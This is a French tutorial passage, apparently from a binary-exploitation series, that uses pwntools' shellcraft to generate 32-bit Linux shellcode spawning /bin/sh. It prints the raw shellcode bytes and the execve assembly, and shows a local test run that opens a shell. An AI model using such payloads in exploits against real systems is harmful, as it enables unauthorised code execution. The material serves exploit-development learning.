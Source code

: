 <center>
{{< figure src="/images/virus-5.png" width="100" >}}
</center>

## Hello Shellcode :gift:

Il existe des ouvrages entiers sur l`écriture de ShellCode, et je trouve personnellent assez rigolo de développer ces bouts de code malicieux. Néanmoins, je vous propose ici pour produire le notre de nous appuyer à nouveau sur **pwntools**.

Ce que l'on souhaite, c'est un petit bout de code binaire qui nous donne un shell en éxécutant tout simplement la commande suivante `/bin/sh`.

Afin de ne pas dévier de notre sujet, nous allons utiliser l'outil **shellcraft** du framework `pwntools`. Nous sommes ici dans un contexte 32 bit sous Linux, so:

```
$ shellcraft i386.linux.sh -f s

"jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3h\x01\x01\x01\x01\x814\x24ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"

```
Quelques paramètres de shellcraft utiles: 

- Pour voir/produire votre Shellcode **en ASM**
``` c
$ shellcraft i386.linux.sh -f a
    /* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push b'/bin///sh\x00' */
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f
    mov ebx, esp
    /* push argument array ['sh\x00'] */
    /* push 'sh\x00\x00' */
    push 0x1010101
    xor dword ptr [esp], 0x1016972
    xor ecx, ecx
    push ecx /* null terminate */
    push 4
    pop ecx
    add ecx, esp
    push ecx /* 'sh\x00' */
    mov ecx, esp
    xor edx, edx
    /* call execve() */
    push SYS_execve /* 0xb */
    pop eax
    int 0x80
``` 
- Pour **tester/éxécuter** votre Shellcode
``` c
$ shellcraft i386.linux.sh -r

[*] '/tmp/pwn-asm-hb32fl7f/step3-elf'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Starting local process '/tmp/pwn-asm-hb32fl7f/step3-elf': pid 5556
[*] Switching to interactive mode

$ id
```